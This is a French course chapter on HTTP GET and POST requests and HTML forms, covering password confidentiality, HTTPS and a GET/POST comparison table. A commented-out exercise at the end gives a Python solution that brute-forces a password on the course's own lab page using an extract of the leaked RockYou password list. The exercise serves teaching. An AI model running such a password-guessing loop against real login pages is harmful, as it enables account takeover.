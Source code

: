 # Chapitre 3: Requêtes GET, POST et formulaires

![image](data/BO.png){: .center}

## 1. Les deux principales requêtes HTTP



Dans le cas de sites Web modernes et interactifs, les clients (c’est-à-dire les navigateurs Web) récupèrent non seulement un document HTML sur le serveur, mais lui envoient aussi souvent des informations comme :

- Le texte d’un terme de recherche que l’utilisateur a saisi dans le champ de recherche
- Le contenu d’un formulaire rempli
- La sélection des filtres dans une boutique en ligne

Pour la transmission de ces informations au serveur, le protocole HTTP prévoit différentes méthodes de requête. Les deux plus importantes sont **GET** et **POST**. Bien que les deux aboutissent au même résultat, elles sont fondamentalement différentes.



## 2. La méthode GET

Considérons le formulaire suivant, inclus dans une page html ouverte dans le navigateur du client :


**Formulaire**

```html 
Le mot de passe est :
<form action="cible2.php" method="get">
<p>
    <input type="password" name="pass" /> 
    <input type="submit" value="Valider" />
</p>
</form>
```

**Aperçu :**

![](data/pass1.png){: .center}


**Explications :**

- le fichier ```cible2.php``` est le fichier sur le serveur qui recevra les paramètres contenus dans le formulaire.
- le paramètre sera nommé ```pass``` et sera de type ```password```, ce qui signifie qu'on n'affichera pas les caractères tapés par l'utilisateur.
On aurait pu aussi avoir un type :
    - ```text``` : le texte s'affiche en clair (pour les login par ex) 
    - ```radio``` : pour une sélection (d'un seul élément)
    - ```checkbox``` : pour une sélection (éventuellement multiple)
- un bouton comportant le label «Valider» déclenchera l'envoi (grâce au type particulier ```submit```) des paramètres (ici un seul, la variable ```pass```) au serveur.

#### Test :
1. Rendez-vous sur la page [http://glassus1.free.fr/ex_get.html](http://glassus1.free.fr/ex_get.html){:target="_blank"} et testez un mot de passe.
2. Observez attentivement l'url de la page sur laquelle vous êtes arrivés. Que remarquez-vous ?


#### La méthode GET et la confidentialité :
Les paramètres passés au serveur par la méthode GET sont transmis **dans l'url de la requête**. Ils sont donc lisibles **en clair** par n'importe qui.

![](data/get1.png){: .center}

Évidemment, c'est une méthode catastrophique pour la transmission des mots de passe. Par contre, c'est une méthode efficace pour accéder directement à une page particulière : ainsi l'url [https://www.google.fr/search?q=la ciotat](https://www.google.fr/search?q=la ciotat){:target="_blank"} nous amènera directement au résultat de la recherche Google pour «la ciotat».


!!! done "À retenir"
    - Avec la méthode GET, les données à envoyer au serveur sont écrites directement dans l’URL. Dans la fenêtre de votre navigateur, cela ressemble à ceci :
    
    ```www.example.com/register.php?firstname=peter&name=miller&age=55&gender=male```

    - Toutes les informations saisies par l’utilisateur (les paramètres dits URL) sont transmises aussi librement que l’URL elle-même. Cela présente des avantages et des inconvénients.
    ####Avantages
    - Les paramètres de l’URL peuvent être enregistrés avec l’adresse du site Web. Cela permet de mettre une requête de recherche en marque-page et de la récupérer plus tard.
    - Si nécessaire, la page peut également être récupérée via l’historique de navigation.
    - Cela est utile pour visualiser par exemple régulièrement une section de carte Google Maps ou pour enregistrer des pages Web contenant certains paramètres de filtrage et de tri.
    #### Inconvénients
    - Le principal inconvénient de la méthode GET est l’absence de protection des données. Les paramètres URL envoyés sont non seulement visibles par tous dans la barre d’adresse du navigateur, mais sont également stockés sans chiffrement dans l’historique du navigateur, dans le cache et dans le fichier log du serveur.
    - Un deuxième inconvénient est sa capacité limitée : suivant le serveur Web et le navigateur, l’URL ne peut pas contenir plus de 2048 caractères. De plus, les paramètres des URL ne peuvent contenir que des caractères ASCII (lettres, chiffres, caractères spéciaux, etc.), et non des données binaires telles que des fichiers audio ou des images.







## 3. La méthode POST

Dans notre code de formulaire du 1.1, modifions l'attribut ```method```, auparavant égal à ```"get"```. Passons-le égal à ```"post"```  :

```html 
Le mot de passe est :
<form action="cible2.php" method="post">
<p>
    <input type="password" name="pass" /> 
    <input type="submit" value="Valider" />
</p>
</form>
```

#### Test :
1. Rendez-vous sur la page [http://glassus1.free.fr/ex_post.html](http://glassus1.free.fr/ex_post.html){:target="_blank"} et testez un mot de passe.
2. Observez attentivement l'url de la page sur laquelle vous êtes arrivés. Que remarquez-vous ?

#### La méthode POST et la confidentialité :
Les paramètres passés au serveur par la méthode POST **ne sont pas visibles** dans l'url de la requête. Ils sont contenus dans le corps de la requête, mais non affichés sur le navigateur.

![](data/post1.png){: .center}

Donc, la transmission du mot de passe est bien sécurisée par la méthode POST ? 

:warning: Pas du tout ! Si le protocole de transmission est du ```http```  et non pas du ```https```, n'importe qui interceptant le trafic peut lire le contenu de la requête et y trouver le mot de passe en clair. Par exemple, voici ce que nous révèle les outils de développeur du navigateur:

![](data/post.png){: .center}

Le contenu de la variable ```"pass"``` est donc visible dans le contenu de la requête. 

Le passage en ```https``` chiffre le contenu de la requête et empêche donc la simple lecture du mot de passe.


!!! done "À retenir"
    - La méthode POST écrit les paramètres URL (Uniform Resource Locator) dans la requête HTTP pour le serveur. Les paramètres ne sont donc pas visibles pour les utilisateurs et la portée des requêtes POST est illimitée.
    #### Avantages
    - Lorsqu’il s’agit de transmettre des données sensibles au serveur, par exemple un formulaire d’inscription avec nom d’utilisateur et mot de passe, la méthode POST permet de garder la confidentialité nécessaire.
    - Les données ne sont pas mises en cache et n’apparaissent pas dans l’historique de navigation.
    - La flexibilité est également de mise avec POST : non seulement des textes courts, mais aussi des données de toute taille et de tout type peuvent être transmis, comme des photos ou des vidéos.
    #### Inconvénients
    - Si une page Web est mise à jour avec un formulaire dans le navigateur (par exemple, en utilisant le bouton « Précédent » / « Retour »), les données du formulaire doivent être de nouveau soumises. Vous avez certainement déjà vu des avertissements qui s’y réfèrent. Il existe un risque que les données soient envoyées plusieurs fois par inadvertance, ce qui peut déclencher des commandes en double par exemple. Toutefois, les programmes de boutiques en ligne les plus récents peuvent empêcher ces problèmes.
    - Les données transmises par la méthode POST ne peuvent pas être sauvegardées sous forme de marque-page avec l’URL.



## Synthèse
|                                                                           	|  GET   	                                                   |  POST                                                                      |
| :-----------------------------------------------------------------------------| :------------------------------------------------------------| :--------------------------------------------------------------------------|
|**Visibilité**   	                                                            | Visible pour l’utilisateur dans le champ d’adresse	       |Invisible pour l’utilisateur                                                |
|Marque-page et **historique de navigation**	                                | Les paramètres de l’URL sont stockés en même temps que l’URL.|L’URL est enregistrée sans paramètres URL.                                  |
|**Cache** et fichier log du serveur                                            | Les paramètres de l’URL sont stockés sans chiffrement	       |Les paramètres de l’URL ne sont pas enregistrés automatiquement.            |
|**Comportement** lors de l’actualisation du navigateur / Bouton « précédent »	| Les paramètres de l’URL ne sont pas envoyés à nouveau.	   |Le navigateur avertit que les données du formulaire doivent être renvoyées. |
|**Type de données**	                                                        | Caractères ASCII uniquement.	                               |Caractères ASCII mais également données binaires.                           |
|**Longueur des données**	                                                    | Limitée - longueur maximale de l’URL à 2048 caractères.	   |Illimitée.                                                                  |

###Une simple « règle de base » pour finir :

- GET pour les paramètres d’un site Web que l'on consulte (filtres, tri, saisies de recherche, etc.). La base de données du serveur est consultée mais pas modifiée.
- POST pour la transmission d'informations et de données de la part de l’utilisateur. La base de données du serveur est modifiée.



 ![](data/alertepost.png){: .center}

Cette fenêtre est caractéristique de l'utilisation d'une méthode POST.



<!-- 

##Résumé : quand utiliser GET ou POST ?
- **GET** : la méthode GET doit être utilisée quand les paramètres à envoyer :
    - n'ont pas de caractère confidentiel. 
    - n'ont pas vocation à créer des modifications sur le serveur (ceci est plus une bonne pratique qu'une interdiction technique)
    - ne sont pas trop longs. En effet, vu qu'ils seront contenus dans l'url, il peut exister des limites de longueur spécifiques au navigateur. Une taille inférieure à 2000 caractère est conseillée.
    Si vous vous demandez à quoi peuvent servir des url si longues, songez à ce type d'url, (ici PythonTutor) où le code du programme à analyser est **contenu** dans l'url : 
    [http://pythontutor.com/visualize.html#code=L%20%3D%20%5B2,%203,%206,%207,%2011,%2014,%2018,%2019,%2024%5D%0A%0Adef%20trouve_dicho%28L,%20n%29%20%3A%0A%20%20%20%20indice_debut%20%3D%200%0A%20%20%20%20indice_fin%20%3D%20len%28L%29%20-%201%0A%20%20%20%20while%20indice_debut%20%3C%3D%20indice_fin%20%3A%0A%20%20%20%20%20%20%20%20indice_centre%20%3D%20%28indice_debut%20%2B%20indice_fin%29%20//%202%0A%20%20%20%20%20%20%20%20valeur_centrale%20%3D%20L%5Bindice_centre%5D%0A%20%20%20%20%20%20%20%20if%20valeur_centrale%20%3D%3D%20n%20%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20indice_centre%0A%20%20%20%20%20%20%20%20if%20valeur_centrale%20%3C%20n%20%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20indice_debut%20%3D%20indice_centre%20%2B%201%0A%20%20%20%20%20%20%20%20else%20%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20indice_fin%20%3D%20indice_centre%20-%201%0A%20%20%20%20return%20None%0A%0Aprint%28trouve_dicho%28L,14%29%29&cumulative=false&curInstr=0&heapPrimitives=nevernest&mode=display&origin=opt-frontend.js&py=3&rawInputLstJSON=%5B%5D&textReferences=false](http://pythontutor.com/visualize.html#code=L%20%3D%20%5B2,%203,%206,%207,%2011,%2014,%2018,%2019,%2024%5D%0A%0Adef%20trouve_dicho%28L,%20n%29%20%3A%0A%20%20%20%20indice_debut%20%3D%200%0A%20%20%20%20indice_fin%20%3D%20len%28L%29%20-%201%0A%20%20%20%20while%20indice_debut%20%3C%3D%20indice_fin%20%3A%0A%20%20%20%20%20%20%20%20indice_centre%20%3D%20%28indice_debut%20%2B%20indice_fin%29%20//%202%0A%20%20%20%20%20%20%20%20valeur_centrale%20%3D%20L%5Bindice_centre%5D%0A%20%20%20%20%20%20%20%20if%20valeur_centrale%20%3D%3D%20n%20%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20indice_centre%0A%20%20%20%20%20%20%20%20if%20valeur_centrale%20%3C%20n%20%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20indice_debut%20%3D%20indice_centre%20%2B%201%0A%20%20%20%20%20%20%20%20else%20%3A%0A%20%20%20%20%20%20%20%20%20%20%20%20indice_fin%20%3D%20indice_centre%20-%201%0A%20%20%20%20return%20None%0A%0Aprint%28trouve_dicho%28L,14%29%29&cumulative=false&curInstr=0&heapPrimitives=nevernest&mode=display&origin=opt-frontend.js&py=3&rawInputLstJSON=%5B%5D&textReferences=false){:target="_blank"}
    <br>
- **POST** : la méthode POST doit être utilisée quand les paramètres à envoyer :
    - ont un caractère confidentiel (attention, à coupler impérativement avec un protocole de chiffrement).
    - peuvent avoir une longueur très importante (le paramètre étant dans le corps de la requête et non plus dans l'url, sa longueur peut être arbitraire).
    - ont vocation à provoquer des changements sur le serveur. Ainsi, un ordre d'achat sur un site de commerce sera nécessairement passé par une méthode POST. Les navigateurs préviennent alors le risque de «double commande» lors d'une actualisation malencontreuse de la page par l'utilisateur par la fenêtre :

    ![](data/alertepost.png){: .center}

    Cette fenêtre est caractéristique de l'utilisation d'une méthode POST.


## Exercice : attaque par force brute et requête GET

![image](data/hackerman.png){: .center width=50%}


#### Pré-requis 1 : le module ```requests``` en python

Le module ```requests``` permet d'aller chercher le contenu d'une page web, suivant la syntaxe ci-dessous.
Testez le code ci-dessous :

```python linenums='1'
import requests
p = requests.get("http://glassus1.free.fr/interesting.html", verify = False)
print(p.text)
```

La sortie en console est :

```
<!DOCTYPE html>
<html>

<head>

<title>Waouh</title>
</head>

<body>
Ceci est vraiment une jolie page web.
</body>

</html>
``` 

Notre programme Python se comporte donc «comme un navigateur» : il se rend sur une page, effectue une requête et récupère la page renvoyée.


#### Pré-requis 2 : l'extraction d'un fichier texte sous forme de liste

Le code ci-dessous permet de collecter dans une liste ```mots``` l'ensemble des mots compris dans le fichier ```monfichiertexte.txt``` (si celui-ci comprend un mot par ligne) 

```python
mots = open("monfichiertexte.txt").read().splitlines()
```

#### Exercice :
Votre objectif est de trouver le mot de passe demandé [sur cette page](http://glassus1.free.fr/exoBF.html){:target="_blank"}

Vous allez vous appuyer sur un leak (*fuite*) très célèbre de mots de passe , qui est le leak du site Rockyou. Dans la base de données de ce site, 32 millions de mots de passe étaient stockés en clair ```¯\_(ツ)_/¯```.

Lorsque le site a été piraté, ces 32 millions de mots de passe se sont retrouvés dans la nature. Ils sont aujourd'hui téléchargeables librement, et constituent un dictionnaire de 14 341 564 mots de passe différents (car parmi les 32 millions d'utilisateurs, beaucoup utilisaient des mots de passe identiques).
Ce fichier est téléchargeable [ici](https://www.kaggle.com/wjburns/common-password-list-rockyoutxt){:target="_blank"}, mais attention il pèse 134 Mo.

Nous allons utiliser un fichier beaucoup plus léger ne contenant que les 1000 premiers mots de passe :  [extraitrockyou.txt](./extraitrockyou.txt){:target="_blank"} .

L'un de ces mots de passe est le mot de passe demandé [sur cette  page](http://glassus1.free.fr/exoBF.html){:target="_blank"} .

Lequel ?

??? note "Correction"
    ```python linenums='1'
    import requests

    page_error = requests.get("http://glassus1.free.fr/repBF.php?pass=")

    liste_mdp = open("extraitrockyou.txt").read().splitlines()

    url = "http://glassus1.free.fr/repBF.php?pass="

    for mdp in liste_mdp:
        new_url = url + mdp
        print(new_url)
        page_tentative = requests.get(new_url)
        if page_tentative.text != page_error.text:
            print("Le mot de passe est le suivant :", mdp)
            break
    ```




 -->
